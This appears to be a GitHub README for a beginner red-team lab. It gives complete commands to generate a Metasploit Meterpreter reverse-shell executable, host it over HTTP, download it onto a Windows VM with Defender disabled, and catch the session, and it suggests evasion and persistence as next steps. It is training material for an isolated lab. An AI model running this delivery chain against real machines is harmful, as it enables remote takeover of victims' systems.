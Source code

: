 # 🧪 Red Team Lab 1: REMCOS Reverse Shell via Executable Delivery

This lab demonstrates a basic but effective red team exercise: delivering a raw Metasploit-generated .exe payload to a Windows 11 VM and catching a reverse Meterpreter shell using Kali Linux. This is a foundational training scenario focused on payload generation, listener setup, and reverse shell execution in a controlled virtual lab.

🖥️ Lab Setup

Host OS

Windows 11 (Pro)

Attacker Machine

Kali Linux (VirtualBox, Host-Only Network)

Network Type

Host-Only Adapter on both VMs

⚙️ Step-by-Step Instructions

## 1. Generate Payload on Kali

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe -o remcos_clone.exe

## 2. Host the Payload via Python Server

python3 -m http.server 8000

## 3. On Windows VM: Download the Payload

Invoke-WebRequest -Uri http://192.168.56.101:8000/remcos_clone.exe -OutFile remcos_clone.exe

## 4. Disable Defender + Run Payload

Turn off Microsoft Defender Real-Time Protection

Right-click remcos_clone.exe > Run as Administrator

## 5. Start Listener on Kali

msfconsole

Then in the console:

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run

✅ You should see:

[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Meterpreter session 1 opened

📸 Screenshot Checklist

Upload these in your GitHub screenshots/ folder and reference them in the README if desired.

Kali IP Config – ip a showing 192.168.56.101

Payload Generation Output – full msfvenom result

Python HTTP Server Running – terminal showing Serving HTTP on 0.0.0.0 port 8000

Windows IPConfig – ipconfig output

PowerShell File Download – full PowerShell window

Defender Disabled – screenshot of Defender UI toggled off

File Explorer showing .exe – remcos_clone.exe on Desktop

Metasploit Listener Output – session opened message

📦 Folder Structure Example (for GitHub)

red-team-lab-1-remcos/
├── remcos_clone.exe   # (Optional - DO NOT upload real malware to GitHub)
├── README.md
└── screenshots/
    ├── kali_ip.png
    ├── payload_gen.png
    ├── http_server.png
    ├── windows_ip.png
    ├── powershell_download.png
    ├── defender_off.png
    ├── file_explorer.png
    └── metasploit_session.png

✅ Next Phase Ideas

Re-delivery using HTA or macro Word doc

Obfuscation with Veil or msbuild

Persistence + privilege escalation

🧠 Reminder

Always do this in a safe, isolated lab. Never test raw or obfuscated malware on your host system or outside a VM.

You're now ready to push this lab to GitHub as a clean, copy-pasteable starter red team repo 💥


